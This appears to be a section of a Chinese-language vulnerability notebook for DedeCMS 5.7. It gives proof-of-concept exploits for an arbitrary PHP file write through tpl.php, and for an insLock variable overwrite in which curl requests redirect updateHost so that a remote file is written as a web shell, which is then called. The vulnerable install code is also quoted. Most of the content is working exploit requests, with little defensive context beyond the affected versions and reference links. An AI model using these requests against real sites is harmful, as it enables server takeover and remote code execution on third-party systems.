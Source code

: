 ## 5.7-SP2 20180109

### tpl.php 任意文件写入

参考链接

* [DedeCMS V5.7 SP2后台存在代码执行漏洞](http://www.freebuf.com/vuls/164035.html)

Poc

```
手动访问
/dede/tpl.php?filename=moonsec.lib.php&action=savetagfile&content=<?php%20phpinfo();?>&token=FORM_TOKEN

即可生成
include/taglib/moonsec.lib.php
```

## 5.7-SP1 20140313

### insLock 变量覆盖 - 远程 getshell 漏洞

影响版本

* <= 5.7 SP1

参考连接

* [Dedecms远程写文件漏洞分析](http://blog.nsfocus.net/dedecms-write-file-vuln/)

Poc

```
# 清空 config_update.php
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/admin/config_update.php'
&nbsp; <font color="red">[×]</font> 远程获取失败

# 覆盖 updateHost、install_demo_name，实现远程文件下载
%> curl 'http://127.0.0.1/install/index.php?step=11&insLockfile=a&s_lang=a&install_demo_name=../data/hello.php&updateHost=http://127.0.0.1/'
&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)

# 测试 shell
curl http://127.0.0.1/data/hello.php
```

关键代码

```
else if($step==11)
{
	require_once('../data/admin/config_update.php');
	$rmurl = $updateHost."dedecms/demodata.{$s_lang}.txt";
	
	$sql_content = file_get_contents($rmurl);
	$fp = fopen($install_demo_name,'w');
	if(fwrite($fp,$sql_content))
		echo '&nbsp; <font color="green">[√]</font> 存在(您可以选择安装进行体验)';
	else
		echo '&nbsp; <font color="red">[×]</font> 远程获取失败';
	unset($sql_content);
	fclose($fp);
	exit();
}
```

